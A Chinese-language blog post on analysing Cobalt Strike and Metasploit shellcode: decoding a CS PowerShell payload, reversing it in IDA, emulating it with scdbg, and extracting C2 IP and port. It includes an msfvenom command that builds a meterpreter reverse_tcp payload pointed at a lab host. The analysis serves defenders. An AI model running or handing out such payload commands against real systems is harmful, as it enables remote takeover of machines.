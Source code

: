 ```yaml
---
layout: post
title:  "走进shellcode"
subtitle: '走进shellcode'
date:   2021-12-27 18:00:00
tags: shellcode
description: 'shellcode'
color: 'rgb(255,192,203)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/20210727001.jpg'
---
```


# 前言
在做红蓝攻防时，常常要用到cs、msf等工具，使用工具生成shellcode或可执行程序，那么小小的shellcode为何能做这么多事情，拿到shellcode后又该怎么分析。希望这篇文章能给大家带来答案，文章中不正确的地方请及时指出。
# shellcode定义
shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 在寄存器eip溢出后，加入一段可让CPU执行的shellcode机械码，让电脑可以执行攻击者的任意指令。  --摘自维基百科

通俗来讲就是一串16进制的机器码，由CPU解释为操作指令 ，最后由内存加载执行。这些操作指令可以由工具生成，也可以自己编写。

例如常见的\x55\x88\xEC，经CPU解释后如下  

55      push ebp  

8B EC   mov ebp, esp  

了解一些汇编知识就能理解，这是一个简单的入栈操作

# shellcode提取
这里以cs生成的powershell代码举例，首先使用Cobalt Strike生成一个powershell的payload。

![image-20211221160111310](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211221160111310.png)

可以看到使用了base64和xor编码，可以使用CyberChef工具进行解码，解码后转成hex并去除空格

![微信截图_20211221154513](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20211221154513.png)

然后以hex形式黏贴至010editor

![image-20211221160356881](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211221160356881.png)

# 简单分析
将获取到的文件载入IDA进行简单分析

![ida1](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/ida1.png)

IDA尝试还原代码，但是第一段IDA将其视为了数据段，使用快捷键C来进行转换

![21121702ida2](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/21121702ida2.png)

还原后可以发现，其在第二行调用了sub_8F，另外还要注意fs:[edx+30h],这是一个指向PEB的指针，这是shell代码动态定位和加载所需导入的方式，找到PEB后，就可以去找IAT里相关函数了。

在sub_8F函数内，可以看到如下代码，使用快捷键R可以转换成字符，发现其调用了wininet.dll，这是一个windows应用程序网络相关模块

![20211217100027ida3](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/20211217100027ida3.png)

还有一部分调用我们需要借助于工具匹配windows dll的api哈希值，[完整列表](https://raw.githubusercontent.com/avast/ioc/master/CobaltStrike/api_hashes/win10_api_hashes.txt)

通过检索可以查找到对应调用

0xc69f8957	wininet.dll_InternetConnectA

0xa779563a	wininet.dll_InternetOpenA


# 快速分析
使用IDA分析可以很容易的对shellcode的流程加载进行观察，当然我们可以使用[SCDBG](http://sandsprite.com/blogs/index.php?uid=7&pid=152)工具更快速的对shellcode进行分析。它是一个围绕libemu仿真库构建的shell代码分析应用程序。将向用户显示shellcode试图调用的所有Windows API。

通过命令行直接对文件进行分析，可以快速获取其调用的函数库和远端的地址与端口

![微信截图_20211221095644](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20211221095644.png)

除了命令行，该工具还提供了gui界面，载入文件勾选相关选项，会自动进行分析。

# cs流程分析
通过上面分析我们可以了解到，cs生成的shellcode仅仅加载了wininet API库并导入了两个用于建立互联网连接的库，并可以看到连接对应的IP和端口。其功能也很明显，就是一个接收信号的程序。那么回过头看一下cs生成的ps文件的其他部分



首先，脚本从system.dll 中导入两个函数 GetModuleHandle 和 GetProcAddress，通过动态链接方式直接从内存中导入dll，不会从磁盘加载。

然后，这些函数用于为函数“var_va”分配内存空间，该函数包含我们的 shellcode。然后脚本对 shellcode 进行解码和解密

接下来，VirtualAlloc 将 shellcode 函数写入内存空间以供调用进程使用。因此，shellcode 本质上是注入到进程使用的内存空间中。

最后，shellcode 被执行，在那里它与 Cobalt Strike 服务器建立一个 C2 通道。当通道建立后即可接收来自cs的指令。

# msf流程

首先使用msfvenom生成shellode。

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.245.153 LPORT=4444 -f raw

可惜的是64位的shellcode无法直接使用scdbg进行分析，相对应的一些函数IDA无法做到有效识别，但好在msf生成的shellcode有个特征可以有助于我们去提取IP和端口。

移动指令（mov）且结尾为0002的寄存器值，搜索后找到如下值4199F5A8C05C1120

![微信截图_20211222122806](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20211222122806.png)

这里注意大小端的问题，进行16进制转10进制，可以得到I以下153.245.168.192，转换出来就是192.168.245.153，5c11转换后是4444。一般由于适用性问题，64位的shellode较少，这里简单提一下。

msfvenom的shellcode实现的功能我们可以使用32位的进行分析，将32位的shellcode使用scdbg工具打开，勾选scan for api table选项，最后启动

![image-20211222164620534](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211222164620534.png)

可以发现其调用的是*ws2_32*.dll，它是Windows Sockets应用程序接口，用于支持Internet和网络应用程序。通过分析可以得出msf的shellcode也仅仅做了建立连接通信的功能。

# 总结

shellcode是一串机器码，可以由CPU解释执行。

cs和msf默认生成的shellcode仅仅是一个连接程序，需要其他方式加载进内存执行。

shellclode分析32位可以直接使用scdbg直接分析，可以获取远程的IP和端口、调用的API等信息。